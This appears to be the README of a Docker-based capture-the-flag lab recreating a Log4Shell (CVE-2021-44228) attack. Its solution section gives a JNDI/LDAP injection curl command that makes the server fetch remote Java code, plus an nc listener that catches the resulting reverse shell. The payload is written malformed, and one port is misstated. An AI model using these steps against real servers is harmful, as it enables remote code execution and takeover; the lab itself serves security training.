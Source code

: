 This repo is to be used for educational purposes only, and is intended to be run against your own machine. We do not condone the use of these skills/techniques outside of this lab environment. DO NOT change any files or commands; run exactly as described in “Starting the Lab Environment".


**Scenario**

A local kitten daycare has recently suffered a zero-day exploit resulting in full system compromise via RCE (remote code execution). A digital forensics team investigating the incident has created a LAB environment meant to serve as a proof-of-concept for what happened. Can you replicate what happened that fateful day for the local kitten daycare?



**Pre-Requisites**
1.    Docker Desktop – https://www.docker.com/products/docker-desktop/ 
2.    Git – https://git-scm.com/book/en/v2/Getting-Started-Installing-Git 



**Starting the Lab Environment**

1.    Open Docker Desktop 
2.    Run '**git clone https://github.com/sgwgsw/Rowdyhacks2022-CTF.git**' in a terminal window.
3.    Change to the Rowdyhacks2022-CTF folder and run '**docker compose up -d**' with admin/sudo privileges. This is done on your local machine, not Docker Desktop.
4.    Once the command has finished running, select 'Containers / Apps' in Docker Desktop to confirm all containers in the stack are running


**Hints**

1.    To start a Docker CLI session, hover over the container in 'Containers / Apps' on Docker Desktop and click the 'CLI' button. **DO NOT open CLI sessions by other means.**
2.    You will not need a CLI session on web_server (remember - this would be the victim's web server which we are trying to hack. An attacker wouldn't have access to this system).  
3.    Use '**ping -c 1 <container_hostname>**' to get the IP of any container. Hostnames are: web_server, http_server, ldap_server, c2_instance, curl_instance
4.    The web_server container is running a Tomcat web server instance 8080. Log4j 2.14.0 is in-use.
5.    The curl_instance container will be useful for sending the exploit.
6.    The c2_instance container has netcact. 
7.    The ldap_server container is hosting the reference object, 'Exploit'.
8.    The http_server container is hosting compiled java code. This code wants to communicate on port 9999. 



**WHEN YOU ARE FINISHED**
1.    Close any CLI/terminal sessions
2.    Click the stop button in 'Containers / Apps' on Docker Desktop
3.    Run 'docker system prune -a' on the host machine, and press 'y' when prompted
4.    Delete the cloned Log4j_LAB-Docker repo/folder on your machine


**Solution** - 

There are several approaches to solving this CTF. Here is one successful approach to our CVE-2021-44228 challenge. 

1.    Open a CLI session on the curl_instance container. Do this through Docker Desktop by selecting the ‘CLI’ button next to the curl_instance container.

2.    Open a CLI session on the c2_instance container.

3.    Run ‘ping -c 1 web_server’ in curl_instance or c2_instance to get the IP address of the vulnerable web server. 

4.    In c2_instance, ru ‘nc -nlvp 9999’. The instructions stated that the compiled java code would want to talk on port 9999. We need to open a listener on that port to receive the java code, which is a reverse shell. 

5.    In curl_instance, we will send the exploit payload. Run ‘curl -A “\{jndi:ldap://ldap_server:1389/Exploit” http://<web_server_IP>:8080’, where <web_server_IP> is the IP address recovered from step 3 above. [1] When this payload is received by web_server, instead of Log4J logging the header it will make a connection to ldap_server on port 8080, asking for the Exploit reference object. [2] ldap_sever then queries the reference object which links out to http_server hosting the java code. [3] The reverse shell is sent to web_server and opened on c2_instance. 

6.    Run ‘find / -name flag.txt’ in c2_instance, which is now a reverse shell executing these commands on web_server. 

7.    Run ‘cat /usr/local/tomcat/flag.txt’ to print the flag. This location will be output from step 6 above. 
